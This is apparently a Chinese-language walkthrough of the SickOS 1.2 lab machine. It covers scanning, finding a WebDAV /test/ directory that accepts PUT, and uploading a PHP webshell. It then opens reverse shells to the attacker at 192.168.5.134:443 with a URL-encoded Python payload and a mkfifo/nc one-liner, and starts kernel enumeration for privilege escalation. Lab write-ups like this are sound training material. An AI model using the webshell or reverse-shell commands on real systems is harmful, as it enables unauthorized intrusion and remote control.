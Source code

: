 # SickOS 1.2

首先我们使用arp-scan -l 发现目标主机。

<pre><code>┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f5:d6:36, IPv4: 192.168.5.134
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.5.1     00:50:56:c0:00:08       VMware, Inc.
192.168.5.2     00:50:56:f6:37:b9       VMware, Inc.
192.168.5.131   00:0c:29:1f:27:fc       VMware, Inc.
<a data-footnote-ref href="#user-content-fn-1">192.168.5.136</a>   00:0c:29:d6:78:03       VMware, Inc.
192.168.5.254   00:50:56:e6:f6:66       VMware, Inc.

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.946 seconds (131.55 hosts/sec). 5 responded                                                                                       
</code></pre>

然后nmap查看一下目标的开放端口

```
┌──(root㉿kali)-[~]
└─# nmap  -sV -sS 192.168.5.136
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:16 EST
Nmap scan report for 192.168.5.136
Host is up (0.00042s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
MAC Address: 00:0C:29:D6:78:03 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.33 seconds
```

80端口似乎是个web页面，访问一下

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

没有什么有用的信息，最后一行显示这里什么都没有。我们尝试找下是否存在隐藏目录

```
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.5.136/ -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.136/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/test                 (Status: 301) [Size: 0] [--> http://192.168.5.136/test/]
/~sys~                (Status: 403) [Size: 345]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

这里得到了一个/test的目录

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

我们使用nikto扫描一下，发现这个地址支持OPTIONS, GET, HEAD, POST的请求方法

```
┌──(root㉿kali)-[~]
└─# nikto -host http://192.168.5.136/  
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.5.136
+ Target Hostname:    192.168.5.136
+ Target Port:        80
+ Start Time:         2023-12-11 20:55:13 (GMT-5)
---------------------------------------------------------------------------
+ Server: lighttpd/1.4.28
+ /: Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.21.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
```

我们尝试使用curl看看/test/这个目录支持的方法

<pre><code>┌──(root㉿kali)-[~]
└─# curl -v -X OPTIONS http://192.168.5.136/test/ 
*   Trying 192.168.5.136:80...
* Connected to 192.168.5.136 (192.168.5.136) port 80
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.5.136
> User-Agent: curl/8.4.0
> Accept: */*
> 
&#x3C; HTTP/1.1 200 OK
&#x3C; DAV: 1,2
&#x3C; MS-Author-Via: DAV
&#x3C; Allow: PROPFIND, DELETE, MKCOL,<a data-footnote-ref href="#user-content-fn-2"> PUT</a>, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
&#x3C; Allow: OPTIONS, GET, HEAD, POST
&#x3C; Content-Length: 0
&#x3C; Date: Tue, 12 Dec 2023 02:05:41 GMT
&#x3C; Server: lighttpd/1.4.28
&#x3C; 
* Connection #0 to host 192.168.5.136 left intact 
</code></pre>

可以看到支持PUT方法，OK那我们可以先在本地创建一个webshell文件

```
┌──(root㉿kali)-[~/Desktop/test]
└─#  echo '<?php passthru($_GET["cmd"]) ?>' > shell.php
```

将创建好的文件使用PUT方法上传到/test/目录

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl -v -X PUT http://192.168.5.136/test/ -T shell.php
Note: Unnecessary use of -X or --request, PUT is already inferred.
*   Trying 192.168.5.136:80...
* Connected to 192.168.5.136 (192.168.5.136) port 80
> PUT /test/shell.php HTTP/1.1
> Host: 192.168.5.136
> User-Agent: curl/8.4.0
> Accept: */*
> Content-Length: 32
> 
* We are completely uploaded and fine
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Tue, 12 Dec 2023 02:17:33 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.5.136 left intact
```

我们访问一下/test/这个目录，可以看到文件上传成功

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

curl执行一下命令

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl -v "http://192.168.5.136/test/shell.php?cmd=id;whoami;ls+-l" 
*   Trying 192.168.5.136:80...
* Connected to 192.168.5.136 (192.168.5.136) port 80
> GET /test/shell.php?cmd=id;whoami;ls+-l HTTP/1.1
> Host: 192.168.5.136
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: PHP/5.3.10-1ubuntu3.21
< Content-type: text/html
< Transfer-Encoding: chunked
< Date: Tue, 12 Dec 2023 02:21:21 GMT
< Server: lighttpd/1.4.28
< 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
total 4
-rw-r--r-- 1 www-data www-data 32 Dec 11 18:17 shell.php
* Connection #0 to host 192.168.5.136 left intact
```

在反弹shell的时候它似乎有端口限制，443端口可以反弹shell，我们本地监听443端口，我们这里用python2的payload

```
http://192.168.5.136/test/shell.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.5.134%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22bash%22%29%27
┌──(root㉿kali)-[~]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.5.134] from (UNKNOWN) [192.168.5.136] 56167
www-data@ubuntu:/var/www/test$
```

{% embed url="https://www.revshells.com/" %}

也可以使用SpyShell这个脚本，相对比较简单，但是这个工具还是得用上nc

```
┌──(root㉿kali)-[~/Desktop/test/SpyShell]
└─# python3 spyshell.py -u http://192.168.5.136/test/shell.php --pretty-prompt
www-data@ubuntu$ 

┌──(root㉿kali)-[~/Desktop/test/SpyShell]
└─# python3 spyshell.py -u http://192.168.5.136/test/shell.php --pretty-prompt
www-data@ubuntu$ rm /tmp/f;mkfifo /tmp/f;bash < /tmp/f | nc 192.168.5.134 443 > /tmp/f

┌──(root㉿kali)-[~]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.5.134] from (UNKNOWN) [192.168.5.136] 56170
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python -c 'import pty;pty.spawn("/bin/bash")'  #升级shell
www-data@ubuntu:/var/www/test$
```

{% embed url="https://github.com/c0dedeadio/SpyShell" %}

### 权限提升

查看内核版本

```
www-data@ubuntu:/$ cat /proc/version; echo ----; cat /etc/*-release
cat /proc/version; echo ----; cat /etc/*-releasecat /proc/version; echo ----; cat /etc/*-release
Linux version 3.11.0-15-generic (buildd@akateko) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu5) ) #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014
----
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04.4 LTS"
NAME="Ubuntu"
VERSION="12.04.4 LTS, Precise Pangolin"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu precise (12.04.4 LTS)"
VERSION_ID="12.04"
```

Ubuntu 12.04.4 运行内核 3.11 32 位架构。searchsploit没有找到相关的提权漏洞。





[^1]: 

[^2]: 
